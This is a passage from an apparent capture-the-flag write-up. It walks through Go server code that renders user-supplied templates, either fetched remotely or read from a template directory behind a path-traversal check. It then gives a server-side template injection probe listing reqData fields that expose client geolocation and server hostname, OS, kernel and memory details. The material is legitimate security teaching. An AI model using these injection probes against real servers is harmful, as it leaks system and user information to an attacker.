 ```go

	return string(content), nil
}
```

```go
if remote == "true" {
    tmplFile, err = readRemoteFile(page)

    if err != nil {
        http.Error(w, "Internal Server Error", http.StatusInternalServerError)
        return
    }
```

Otherwise the inherited `IsSubdirectory` function is called using `reqData` and checks if **page** is a subdirectory of **TEMPLATE_DIR** thus checking for path traversal, if that check is passed the inherited `IsSubdirectory` function is called to set **tmpFile** to the contents of the file given from **page**.

```go
} else {
    if !reqData.IsSubdirectory("./", TEMPLATE_DIR+"/"+page) {
        http.Error(w, "Internal Server Error", http.StatusInternalServerError)
        return
    }

    tmplFile = reqData.OutFileContents(TEMPLATE_DIR + "/" + page)
}
```

Now **tmpFile** is rendered using golang's `html/template` package and returned in the response.

## SSTI exploitation

Since we can render our own templates we can test for an SSTI attack.

We can do this by creating a text file calling any of the variables attached to `reqData`:

```
{{ .ClientIP }}
{{ .ClientUA }}
{{ .ClientIpInfo.IpVersion }}
{{ .ClientIpInfo.IpAddress }}
{{ .ClientIpInfo.Latitude }}
{{ .ClientIpInfo.Longitude }}
{{ .ClientIpInfo.CountryName }}
{{ .ClientIpInfo.CountryCode }}
{{ .ClientIpInfo.TimeZone }}
{{ .ClientIpInfo.ZipCode }}
{{ .ClientIpInfo.CityName }}
{{ .ClientIpInfo.RegionName }}
{{ .ClientIpInfo.Continent }}
{{ .ClientIpInfo.ContinentCode }}
{{ .ServerInfo.Hostname }}
{{ .ServerInfo.OS }}
{{ .ServerInfo.KernelVersion }}
{{ .ServerInfo.Memory }}
```
